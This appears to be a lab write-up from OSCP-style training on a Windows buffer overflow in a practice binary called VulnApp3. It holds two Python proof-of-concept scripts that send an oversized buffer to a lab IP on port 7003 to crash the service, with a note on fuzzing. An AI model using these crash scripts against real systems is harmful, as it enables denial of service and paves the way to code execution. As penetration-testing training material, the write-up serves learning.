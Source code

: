 VulnApp3..exe

# Vuln3

## The original poc:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow$ cat Vuln3_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "A" * 0x8B0

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.176.227", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Crash the app
Modify the poc to include the Widow client's IP address. I tried fuzzing for buffer length 1-10000. Turns out the problem isn't the buffer length, it's the 'A' character! Try using B's instead. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 1_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "B" * 2224 # x8b0

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```
